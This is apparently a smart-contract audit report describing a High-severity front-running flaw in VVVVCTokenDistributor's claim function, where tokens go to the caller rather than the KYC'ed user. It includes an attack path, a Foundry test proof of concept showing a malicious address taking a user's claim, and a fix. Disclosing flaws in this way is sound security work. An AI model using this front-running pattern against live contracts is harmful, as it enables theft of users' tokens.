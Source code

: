 Shiny Lavender Skunk

High

# Anyone can steal an eligible KYC'ed user's claim amount in `VVVVCTokenDistributor.sol`

### Summary

Transferring the tokens to the caller of the `VVVVCTokenDistributor::claim()` function essentially allows anyone to steal an eligible KYC'ed user's claim amount by front-running a claim (the protocol is to be deployed on Ethereum Mainnet along with the other L2s).

### Root Cause

Consider the code segment [here](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L130C1-L136C10). The tokens are transferred from the project token proxy wallets to the caller of the `VVVVCTokenDistributor::claim()` function, instead of the eligible user's KYC address. Anyone can front-run the claim transaction, and use the signature to steal funds.

### Internal pre-conditions

A user needs to be eligible for a claim through `VVVVCTokenDistributor.sol`.

### External pre-conditions

The claim needs to occur on Ethereum Mainnet where transactions are collected in a mempool and can be front-run.

### Attack Path

1. An eligible user generates a signature to claim tokens via vVv's off-chain service.
2. The user sends the claim transaction which is collected in Ethereum Mainnet's mempool.
3. A malicious user front-runs the claim transaction and uses the same signature to claim tokens to their address.

### Impact

The eligible KYC'ed user loses all his claim amount.

### PoC

Add the following test case to `vvv-platform-smart-contracts/test/vc/VVVVCTokenDistributor.unit.t.sol`,

```solidity
    function testAnyoneCanStealAKYCedUsersClaimTokens() public {
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams =
            generateClaimParamsWithSignature(sampleKycAddress, thisProjectTokenProxyWallets, thisTokenAmountsToClaim);

        // Create a malicious user
        address maliciousUser = vm.addr(1000);
        claimAsUser(maliciousUser, claimParams);
        // The malicious user essentially stole the KYC'ed users claim
        assertTrue(ProjectTokenInstance.balanceOf(maliciousUser) == claimAmount);
    }
```

The test passes,

```shell
Ran 1 test for test/vc/VVVVCTokenDistributor.unit.t.sol:VVVVCTokenDistributorUnitTests
[PASS] testAnyoneCanStealAKYCedUsersClaimTokens() (gas: 122037)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.01ms (1.40ms CPU time)
```

### Mitigation

Make the following change to the `VVVVCTokenDistributor::claim()` function,

```diff
    function claim(ClaimParams memory _params) public {
        // Code here...

        // transfer tokens from each wallet to the caller
        // @audit Anyone can snatch this signature from the mempool and claim tokens because of the msg.sender recipient
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
-               msg.sender,
+              _params.kycAddress,
                _params.tokenAmountsToClaim[i]
            );
        }

        // More code here...
    }
```

This transfers the tokens to the KYC address instead of the sender of the transaction.